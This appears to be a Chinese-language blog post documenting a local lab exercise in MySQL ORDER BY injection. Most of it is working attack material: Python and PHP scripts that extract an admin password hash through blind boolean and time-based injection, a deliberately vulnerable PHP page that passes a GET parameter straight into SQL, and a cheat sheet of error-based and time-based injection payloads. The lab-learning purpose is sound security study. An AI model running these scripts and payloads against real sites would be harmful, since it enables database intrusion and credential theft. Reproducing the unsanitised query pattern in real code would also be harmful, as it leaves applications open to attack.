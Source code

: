 ```yaml
---
title: order by injection
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
  - python
---
```


 本地搭建测试系统进行注入实践，包含php网页脚本、mysql数据库脚本、python爆破脚本。
 
{% raw %}
<pre>
order by 字段1,字段2 DESC  字段1是排序第一关键字，默认为升序;字段2是排序第二关键字,这里指定为降序
字段2处替换为： IF(1,bananas,cherries) 或 (case when 1 then bananas else cherries end)

ASCII(SUBSTRING((SELECT password FROM fruits WHERE username = 0x41646d696e),1,1))=0x30
</pre>
{% endraw %}

python爆破脚本，用到了requests模块，必须在linux下运行。
{% highlight python %}
#版本1 CASE WHEN
import requests,string
charset = 'abcdef'+string.digits 
AdminHash=''
url = 'http://192.168.1.101/DebugPHP/3.php'  
for i in range(1,33):
    for c in  charset:  
        payload="?by=3,(CASE WHEN (SELECT SUBSTRING(password,%d,1) FROM fruits where username=0x41646d696e)='%c' +\
                 THEN username ELSE password END) --" %(i, c)
        res = requests.get(url+payload)
        if "21</td><td>System" in res.text:
            AdminHash+=c
            break
print AdminHash  #e10adc3949ba59abbe56e057f20f894e

#版本2 IF
import requests,string
charset = 'abcdef'+string.digits 
AdminHash=''
url = 'http://192.168.1.101/DebugPHP/3.php'  
for i in range(1,33):
    for c in  charset:                 
        payload="?by=IF(SUBSTR((SELECT password from fruits WHERE username  +\
                =CHAR(65,100,109,105,110)),%d,1)=char(%d),username,password) LIMIT 2--" %(i,ord(c))             
        res = requests.get(url+payload)
        if "2</td><td>Admin" in res.text:
            AdminHash+=c
            break
print AdminHash

#版本3  time injection
#by=()
#select 1 from ()b
#select * from fruits where username='Admin' and if(condtion,sleep(0.5),0)
#upper(substring(password,%d,1))=char(%d)
import requests,string,time
charset = 'ABCDEF'+string.digits 
AdminHash=''
url = 'http://192.168.1.100/DebugPHP/3.php'  
for i in range(1,33):
    for c in  charset:                 
        payload="?by=(select 1 from (select * from fruits where username='Admin' +\
                 and if(upper(substring(password,%d,1))=char(%d),sleep(0.5),0))b)" %(i,ord(c))
        timeStart = time.time()  
        res = requests.get(url+payload)
        timeEnd = time.time()
        seconds = timeEnd - timeStart
        if seconds>0.2:
            AdminHash+=c
            print AdminHash
            break
print AdminHash
{% endhighlight %}

php爆破脚本：
{% highlight php %}
<?php
$md5 = '';
$foo = array('0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f');
for($i=1; $i <= 32; $i++)
{
        foreach($foo as $s)
        {
           $s = ord($s);                
           $res = system("wget -O - 'http://192.168.1.100/DebugPHP/3.php?by=IF(SUBSTR((SELECT password from fruits WHERE username=CHAR(65,100,109,105,110)),{$i},1)=CHAR({$s}),username,password) LIMIT 2--' 2>/dev/null | grep Admin");
                if('' != $res)
                {
                    $md5 .= chr($s);
                    break; 
                 }
        }
}
echo "===$md5===";
?>
{% endhighlight %}


php本地注入测试脚本
{% highlight php %}
<?php
function mysql_fetch_all($result)
{
	$rows=array();
	while($row=mysql_fetch_array($result)){
		array_push($rows,$row);
	}
	return $rows;
}
$host = '192.168.1.103';
$dbuser ='root';
$dbpass ='';
$dbname ="security";
$tbname = "fruits";

$con = mysql_connect($host,$dbuser,$dbpass);
if (!$con) echo "Failed to connect to MySQL: " . mysql_error();
mysql_select_db($dbname,$con) or die ( "Unable to connect to the table: $dbname".mysql_error());

$orderby=$_GET['by'];
$sql="SELECT * FROM fruits ORDER BY $orderby LIMIT 10";
$result = mysql_query($sql);
$rows=mysql_fetch_all($result);
 
echo '<table>'.PHP_EOL;
$i = 1;
foreach ($rows as $row)     
{
	//print_r($row);
	echo sprintf('<tr>');
	echo sprintf('<td align="left">%d</td>', $i++);
	echo sprintf('<td>%s</td>', $row['username']);
	echo sprintf('<td>%s</td>', $row['apples']);
	echo sprintf('<td>%s</td>', $row['bananas']);
	echo sprintf('<td>%s</td></tr>', $row['cherries']);
}
echo '</table>'.PHP_EOL;
mysql_close($con);
?>
{% endhighlight %}

mysql数据库脚本
{% raw %}
<pre>
mysql> show databases;
mysql> source /root/Desktop/junk2/test.sql 导入数据
mysql> show tables;
mysql> desc fruits;
+----------+------------------+------+-----+---------+-------+
| Field    | Type             | Null | Key | Default | Extra |
+----------+------------------+------+-----+---------+-------+
| username | varchar(32)      | NO   | PRI |         |       |
| password | char(32)         | YES  |     | NULL    |       |
| apples   | int(10) unsigned | YES  |     | 0       |       |
| bananas  | int(10) unsigned | YES  |     | 0       |       |
| cherries | int(10) unsigned | YES  |     | 0       |       |
+----------+------------------+------+-----+---------+-------+

/*test.sql script*/
use security;
CREATE TABLE IF NOT EXISTS fruits(
username VARCHAR(32) CHARACTER SET ascii COLLATE ascii_general_ci,
password CHAR(32) CHARACTER SET ascii COLLATE ascii_bin,
apples   INT(10) UNSIGNED DEFAULT 0,
bananas  INT(10) UNSIGNED DEFAULT 0,
cherries INT(10) UNSIGNED DEFAULT 0,PRIMARY KEY(username)
);
insert into fruits values ('Horst1','e10adc3949ba59abbe56e057f20f883e',1,1,1);
insert into fruits values ('Harald1','e10adc3949ba59abbe56e057f20f884e',1,1,1);
insert into fruits values ('Horst','e10adc3949ba59abbe56e057f20f885e',1,5,3);
insert into fruits values ('Peter1','e10adc3949ba59abbe56e057f20f886e',1,1,1);
insert into fruits values ('Harald2','e10adc3949ba59abbe56e057f20f887e',2,2,2);
insert into fruits values ('Horst2','e10adc3949ba59abbe56e057f20f888e',2,2,2);
insert into fruits values ('Peter2','e10adc3949ba59abbe56e057f20f889e',2,2,2);
insert into fruits values ('Peter','e10adc3949ba59abbe56e057f20f890e',2,3,5);
insert into fruits values ('Aaron','e10adc3949ba59abbe56e057f20f891e',2,3,4);
insert into fruits values ('Peter3','e10adc3949ba59abbe56e057f20f892e',3,3,3);
insert into fruits values ('Harald3','e10adc3949ba59abbe56e057f20f893e',3,3,3);
insert into fruits values ('Admin','e10adc3949ba59abbe56e057f20f894e',3,2,4);
insert into fruits values ('Horst3','e10adc3949ba59abbe56e057f20f895e',3,3,3);
insert into fruits values ('Horst4','e10adc3949ba59abbe56e057f20f896e',4,4,4);
insert into fruits values ('Harald4','e10adc3949ba59abbe56e057f20f897e',4,4,4);
insert into fruits values ('Peter4','e10adc3949ba59abbe56e057f20f898e',4,4,4);
insert into fruits values ('Harald','e10adc3949ba59abbe56e057f20f899e',4,4,1);
insert into fruits values ('System','e10adc3949ba59abbe56e057f20f900e',5,1,2);
insert into fruits values ('Horst5','e10adc3949ba59abbe56e057f20f901e',5,5,5);
insert into fruits values ('Peter5','e10adc3949ba59abbe56e057f20f902e',5,5,5);
insert into fruits values ('Harald5','e10adc3949ba59abbe56e057f20f903e',5,5,5);
</pre>
{% endraw %}


其他注入知识点：
{% raw %}
<pre>
''=(payload)=''
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'*  (payload)  *'
' or (payload) and '
" – (payload) – "

select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
//Duplicate entry 'security1' for key 'group_key'

//update爆其他表的数据
update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';

// order by 第二关键字注入
order by apples,IF(1,bananas,cherries) desc
order by apples,(case when 1 then bananas else cherries end) desc

order by 1 and extractvalue(0,concat(0x3a,mid((select password from fruits where username='Admin'),1,16)));
//XPATH syntax error: ':e10adc3949ba59ab'  爆出前16位
order by 1 and extractvalue(0,concat(0x3a,mid((select password from fruits where username='Admin'),17,16)));
//XPATH syntax error: ':be56e057f20f894e'  爆出后16位

select * from fruits order by extractvalue(0,concat(0x3a,(select password from users where username='Dummy')));
//XPATH syntax error: ':p@ssword' 可以爆出其他表中的字段值

select 1 from (select * from fruits where username='Admin' and if(upper(substring(password,1,1))='E',sleep(1),0))b; 
//Empty set (1.00 sec)  时间注入


mysql常用命令：
select hex('Admin');  /*41646D696E*/
select concat(0x41646d696e);  /*Admin*/

Create database newdb;
use newdb;
CREATE TABLE users(id int(3) NOT NULL AUTO_INCREMENT,username varchar(20) NOT NULL,password varchar(20) NOT NULL,PRIMARY KEY (id));
desc users;  查看表的结构
insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据
</pre>
{% endraw %}

经典文章：

[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)

[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)
